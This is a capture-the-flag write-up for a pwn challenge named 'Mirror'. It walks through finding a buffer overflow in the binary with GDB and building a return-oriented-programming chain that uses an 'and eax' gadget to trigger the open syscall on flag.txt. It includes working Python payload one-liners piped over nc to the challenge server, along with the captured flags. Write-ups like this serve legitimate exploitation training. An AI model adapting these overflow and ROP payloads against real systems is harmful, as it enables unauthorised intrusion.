 Mirror - Pwn

![image](https://user-images.githubusercontent.com/81467647/179567310-f3554de7-60ea-4463-98d9-a2d300c751bd.png)

Lets run the program and figure out what happend

![image](https://user-images.githubusercontent.com/81467647/179567495-9d477bd9-78e5-477e-8df3-cc8f1ca7b892.png)

So basically we enter input and get back the same string that we entered, after messing around a litile bit more we found someting that look like BOF.

![image](https://user-images.githubusercontent.com/81467647/179567929-96d59a6e-d92f-4eec-82a0-c8c359c73270.png)

Lets dig dipper with Gdb, we can see 4 function:

![image](https://user-images.githubusercontent.com/81467647/179568023-6ff9ac4d-f386-485c-8ea9-a04ae3b8ad44.png)

1) mirror

  ![image](https://user-images.githubusercontent.com/81467647/179568178-c32b2aec-2200-4144-89bb-e942f5979ac2.png)
  
  We can see that its a function that if "cmp    rdx,0x55" is not happend we just get out of the program, otherwise we hit the return value of the function.
  So after some messing around i discoverd that rdx register can be manipulted by the length on the string (our input) and the highest number is 0x70. In decimal value it is 85 - 112.

So my first try was to change the return address of this function to print_flag function, lets see what happend (\x3d\x10\x40\x00\x00\x00\x00\x00 address of prinf_flag)

python -c "print('A'*16+'\x3d\x10\x40\x00\x00\x00\x00\x00'+'A'*75)"  | nc 0.cloud.chals.io 14397

MCL{N0t_50_ea5y!}

We get wrong flag, if we check print_flag function we can see why --> the function open file that call "false_flag.txt" and print his output.

![image](https://user-images.githubusercontent.com/81467647/179569912-f88049d3-d269-4b80-b010-6df0b06b21e8.png)

Then i realze that i can use any syscall that i want with number 85-112 if i jump back here and pop rdi and pop rsi, its mean that i have control on 2 arguments and number of the syscall

![image](https://user-images.githubusercontent.com/81467647/179570761-9f7cced0-9f80-4486-ae09-73bfeef8b612.png)

Here is the fun part, it can be solve as they want (in the description of the challange they say link, why?), I decide to trick the challange a little bit, by get full control on eax value and change it to 2.
Why 3? because it is a syscall open, and if i manage to open flag.txt I can print it by print_flag function.

So i use Ropper execellent tool to find some instruction in the program. and I run this command "ropper --file Mirror --search "and eax""

![image](https://user-images.githubusercontent.com/81467647/179571853-988dcb56-0050-4050-8c81-45b25eed1c9b.png)

The last line look useful, we can change eax register by and command with the value 0x402017, so if we look at this in Binary we get:

0x402017 --> 010000000010000000010111

&&

Our value

=

syscall 2 -->000000000000000000000010

Our value need to be --> 0000000001100010 --> in decimal its 98 in our range 85-112, and as we can see its work!

![image](https://user-images.githubusercontent.com/81467647/179574289-769a9526-9b43-4d8e-a40d-b936a63b035b.png)

And one step after we can see that rax=2.

![image](https://user-images.githubusercontent.com/81467647/179574384-28dcd929-b172-4659-95a2-eb6e56119e11.png)

So now all we need to do is to change rsi value to flag.txt (locate in \x06\x20\x40\x00\x00\x00\x00\x00)

![image](https://user-images.githubusercontent.com/81467647/179574764-94150d32-c2c6-4ec5-a1e5-4d852878d205.png)

Finalliy lets get the flag:

1) "and eax, 0x402017" - Address --> \x31\x10\x40\x00\x00\x00\x00\x00

2) "pop    rdi" - Address --> \x2a\x10\x40\x00\x00\x00\x00\x00

3) "flag.txt" - Address --> \x06\x20\x40\x00\x00\x00\x00\x00

4) "mov    rdi,rax" - Address --> \x58\x10\x40\x00\x00\x00\x00\x00 (print_flag function)

Run this command:

python -c 'print("A"*16 +"\x31\x10\x40\x00\x00\x00\x00\x00"+"\x2a\x10\x40\x00\x00\x00\x00\x00"+"\x06\x20\x40\x00\x00\x00\x00\x00"+"\x00"*16 +"\x31\x10\x40\x00\x00\x00\x00\x00"+"\x58\x10\x40\x00\x00\x00\x00\x00"+ "C"*25)' | nc 0.cloud.chals.io 14397

AAAAAAAAAAAAAAAA1@*@ @1@X@CCCCCCCCCCCCCCCCCCCCCCCCC

MCL{D1D_y0u_U53_50f7_0R_H4Rd_L1Nk?}   




  
